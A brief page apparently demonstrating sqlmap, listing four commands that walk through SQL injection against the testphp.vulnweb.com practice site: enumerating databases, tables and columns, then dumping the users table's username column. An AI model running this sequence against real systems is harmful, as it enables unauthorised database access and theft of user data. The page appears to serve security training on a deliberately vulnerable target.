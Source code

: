 # sqlmap-dev hacking now:

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 --dbs ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart --tables ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users --columns ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users -C uname --dump-all ```
